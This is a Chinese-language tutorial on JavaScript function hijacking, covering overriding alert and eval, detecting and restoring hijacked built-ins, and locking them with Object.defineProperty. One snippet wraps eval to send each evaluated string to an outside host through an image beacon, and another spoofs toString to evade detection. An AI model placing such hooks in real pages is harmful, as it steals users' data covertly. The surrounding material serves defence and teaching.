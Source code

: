 # 函数防劫hijacking<sup>shine</sup>
## 1.的函数劫持是什么？
javascript函数劫持，顾名思义，即在一个函数运行之前把它劫持下来，添加我们想要的功能。当这个函数实际运行的时候，它已经不是原本的函数了，而是带上了被我们添加上去的功能。这也是我们常见的钩子函数的原理之一。

```javascript
    var _alert = alert;
    function alert(str){
        if (confirm('How are you?')){
            _alert(str);
        }
    }
    alert('something');
```
类似的还有eval等等函数，甚至算定义函数也可能重写而劫持，因为js本身没有重载功能。

## 2.函数劫持的目的
劫持当然就是希望在执行该函数时，添加一些副作用。比如收集信息（或者说盗取信息）,插入广告等。

```javascript
    var _eval = eval;
    window.eval = function(str){
        setTimeout(function(){
            var img = new Image();
            img.src = "http://www.scscms.com/collect?eval=" + encodeURIComponent(str);
        },0);
        _eval(str);
    };
    eval('var a = "something";');
```
## 3.鉴定内置函数被劫持
怎么鉴定内置函数被劫持，网上流行一种直接方法是把内置函数的toString方法，在返回字符串中判断是否存在\[native code\]字符。比如eval函数没被劫持前返回字符是：
```javascript
function eval() {
    [native code]
}
```
所以他们认为`eval.toString().indexOf("[native code]") > 0`就是劫持了，这未免也太草率了。原因是在劫持过程中可随时添加此字符蒙骗过关：
```javascript
    window.eval = function(str){
        /*[native code]*/
        //[native code]
        console.log("[native code]");
    };
    console.log(eval.toString());
```
看看，是吧。按理说应该返回上面那样干干净净的代码才能判断没有被劫持，不是吗？还真不是！因为假如我添加如下代码呢：
```javascript
    window.eval = function(str){
        //劫持过程省略
    };
    window.eval.toString = function(){
        return `function eval() {
            [native code]
        }`
    };
    console.log(eval.toString());
```
那我还能说点啥呢？
所以检测其是否劫持还得判断其toString方法是否被改写，或者在原型链上的方法是否已改写。
```javascript
    function hijacked(fun){
        //判断是否是干净的内置函数
        return "prototype" in fun || fun.toString().replace(/\n|\s/g, "") != "function"+fun.name+"(){[nativecode]}";
    }
    if(hijacked(eval)){
        console.log("被劫持了");
    }else{
        console.log("没被劫持");
    }
```
## 4.内置函数反劫持

- 1.判断劫持后恢复
一旦判断被劫持后，我们就要想法恢复此方法。
假如劫持人有另存方法为某个变量就简单点，直接还原。但这也是非常不靠谱的。
假如劫持人有使用call调用原始方法，我们也是可以直接找回它的。
```javascript
    var _eval = window.eval;
    window.eval = function(str){
        console.log(str);
        _eval.call(null,str);
    };
    //开始借用call恢复
    Function.prototype.call = function(fun){
        if(this.name == "eval"){
            window.eval = this;//恢复方法
        }
    };
    console.log(eval("var a = 1;"));//恢复前执行
    console.log(eval("var b = 1;"));//恢复后执行
```
此方法缺点也大，一是别人调用方法不一定使用call或apply，二是或许劫持者会事先禁用重写call、apply方法。
```javascript
    Object.defineProperty(Function.prototype, "call", {
        value: Function.prototype.call,writable: false,configurable: false,enumerable: true
    });
    Object.defineProperty(Function.prototype, "apply", {
        value: Function.prototype.apply,writable: false,configurable: false,enumerable: true
    });
```
最绿色环保的当然就是新建一个iframe干净环境来还原内置函数。

```javascript
    var _eval = window.eval;
    window.eval = function(str){
        console.log(str);
        _eval.call(null,str);
    };

    function saveHook(name) {
        var f = document.createElement("iframe");
        f.style.display = "none";
        document.body.appendChild(f);
        window[name]=f.contentWindow[name];
    }
    console.log(eval.toString());
    saveHook("eval");//恢复方法
    console.info(eval.toString());
```
- 2.预先打预防针

其实我觉得最好的反劫持应该是防劫持，即给相应的方法打预防针。主要是通过修改原型配置，禁止重写方法对象。
```javascript
    Object.defineProperty(window, 'eval', {
        writable: false,configurable: false,enumerable: true
    });
    var _eval = window.eval;
    window.eval = function(str){
        console.log(str);
        _eval.call(null,str);
    };
    console.log(eval.toString());
```
如上，此时eval重写将默默失败（严格模式下会报错）。但有个前提就是你的脚本要保证在劫持者之前执行。

### 5.函数绑架

“函数绑架”我们暂且这样称呼它吧。意思是在不破坏原函数结构的基础上，附加绑上一个新方法函数，此函数的触发可定义在原函数调用之前或者之后再触发。这对我们跟踪函数调用非常有用。
```javascript
    Function.prototype.kidnap = function(fun){
        var _this = this;
        return function(){
            fun.apply(_this,arguments);
            return _this.apply(_this,arguments);
        }
    };
    function fun(str){
        console.log(str);
    }
    fun = fun.kidnap(function(str){
        console.info("初次绑架:"+ str);
    });

    fun = fun.kidnap(function(str){
        console.info("再次绑架:"+ str);
    });

    fun("This is a secret");
```
此类绑架因为是绑定在自定义函数里，所以判断是否有绑定有一定难度。不过你还是可以事先把函数保护起来的。
```javascript
    Object.defineProperty(window, 'fun', {
        writable: false,configurable: false,enumerable: true
    });
    //后继的绑架将失败
```